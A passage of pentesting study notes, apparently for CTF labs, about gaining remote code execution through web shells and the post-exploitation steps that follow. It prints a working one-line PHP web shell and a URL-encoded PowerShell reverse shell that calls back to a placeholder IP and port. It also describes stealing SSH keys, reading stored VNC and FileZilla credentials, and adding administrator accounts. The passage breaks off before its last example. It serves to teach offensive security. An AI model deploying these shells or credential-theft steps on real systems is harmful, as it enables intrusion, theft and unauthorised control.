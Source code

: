 In a very basic one line format:

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

![[Pasted image 20240820044659.png]]

Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the `ifconfig` command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. `whoami`, `hostname`, `arch`, etc).

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```


## **Next Steps**
On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`  
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`. These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:
